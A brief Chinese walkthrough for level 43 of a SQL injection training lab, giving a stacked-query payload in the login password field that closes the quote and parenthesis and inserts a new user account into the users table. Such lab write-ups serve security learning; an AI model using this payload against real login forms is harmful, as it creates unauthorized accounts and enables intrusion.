

# Less-43

四十三关和四十二关差不多但是密码参数是单引号和括号闭合的。

~~~ cmd
login_user=1&login_password=1');insert into users(id,username,password) values ('41','Less43','111111')--+&mysubmit=Login
~~~

后面使用已经插入的账号密码进行登录即可

